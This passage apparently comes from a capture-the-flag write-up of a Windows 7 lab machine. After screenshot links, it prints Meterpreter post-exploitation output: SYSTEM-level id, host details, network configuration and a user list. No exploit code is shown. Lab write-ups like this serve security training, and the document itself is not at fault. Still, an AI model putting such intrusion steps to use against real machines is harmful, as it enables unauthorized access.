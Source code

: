 ![writeup.exploitation.steps.2.1](./screenshot09.png)  

![writeup.exploitation.steps.2.2](./screenshot10.png)  

![writeup.exploitation.steps.2.3](./screenshot11.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
ntauth/system@HARIS-PC> id
NT AUTHORITY\SYSTEM
ntauth/system@HARIS-PC>  
ntauth/system@HARIS-PC> uname
Computer        : HARIS-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
ntauth/system@HARIS-PC>  
ntauth/system@HARIS-PC> ifconfig
Ethernet adapter Local Area Connection:
  Connection-specific DNS Suffix  . :
  IPv6 Address. . . . . . . . . . . : dead:beef::c530:b184:97a4:fd67
  Temporary IPv6 Address. . . . . . : dead:beef::4d8e:bdfd:4c8b:3189
  Link-local IPv6 Address . . . . . : fe80::c530:b184:97a4:fd67%11
  IPv4 Address. . . . . . . . . . . : 10.10.10.40
  Subnet Mask . . . . . . . . . . . : 255.255.255.0
  Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:db57%11
                                      10.10.10.2
ntauth/system@HARIS-PC>  
ntauth/system@HARIS-PC> users
Administrator
haris
```
